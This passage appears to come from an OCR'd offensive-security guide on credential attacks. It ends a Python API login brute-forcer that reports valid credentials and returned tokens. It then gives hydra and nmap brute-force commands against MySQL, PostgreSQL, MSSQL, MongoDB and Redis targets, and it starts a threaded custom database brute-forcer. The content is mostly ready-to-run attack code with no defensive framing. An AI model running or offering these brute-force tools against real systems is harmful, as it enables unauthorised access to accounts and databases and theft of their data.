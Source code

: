 ```bash
        'password': password
    }
    
    try:
        response = requests.post(
            url,
            json=data,
            headers=headers,
            timeout=10
        )
        
        # Check for successful authentication
        if response.status_code == 200:
            resp_data = response.json()
            if 'token' in resp_data or 'access_token' in resp_data:
                print(f"[SUCCESS] {username}:{password}")
                print(f"Response: {response.text}")
                return True
        
        print(f"[FAILED] {username}:{password} - Status: {response.status_code}")
        return False
        
    except Exception as e:
        print(f"[ERROR] {username}:{password} - {str(e)}")
        return False

# Example usage
# python3 api_bruteforce.py
EOF
```

### 10.3 Database Credential Attacks

```bash
# MySQL brute force
hydra -L users.txt -P passwords.txt mysql://target_ip

# PostgreSQL brute force
hydra -L users.txt -P passwords.txt postgres://target_ip

# MSSQL brute force
hydra -L users.txt -P passwords.txt mssql://target_ip

# MongoDB brute force
nmap -p 27017 --script mongodb-brute --script-args userdb=users.txt,passdb=passwords.txt target_ip

# Redis brute force
nmap -p 6379 --script redis-brute --script-args passdb=passwords.txt target_ip

# Custom database brute forcer
cat > db_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import pymysql
import psycopg2
import pymongo
import redis
import threading
from queue import Queue
import sys

class DatabaseBruteForcer:
    def __init__(self, target, port, db_type, usernames, passwords, threads=10):
        self.target = target
```